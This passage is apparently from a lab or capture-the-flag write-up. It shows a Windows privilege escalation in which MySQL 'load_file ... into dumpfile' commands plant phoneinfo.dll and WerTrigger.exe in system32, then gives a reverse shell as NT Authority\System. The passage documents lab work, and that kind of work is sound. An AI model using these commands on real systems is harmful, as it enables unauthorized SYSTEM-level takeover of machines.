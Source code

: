 ```
select load_file('C:\\xampp\\htdocs\\phoneinfo.dll') into dumpfile 'C:\\Windows\\system32\\phoneinfo.dll';
select load_file('C:\\xampp\\htdocs\\Report.wer') into dumpfile 'C:\\Windows\\system32\\Report.wer';
select load_file('C:\\xampp\\htdocs\\WerTrigger.exe') into dumpfile 'C:\\Windows\\system32\\WerTrigger.exe';
```

![Craft216.png](/assets/images/Craft2/Craft216.png){: .responsive-image}

After that we simply run WerTrigger.exe, and it executes the phoneinfo.dll with privileges, giving us a hit on our reverse shell. 

![Craft217.png](/assets/images/Craft2/Craft217.png){: .responsive-image}

And we have `NT Authority\System`. 
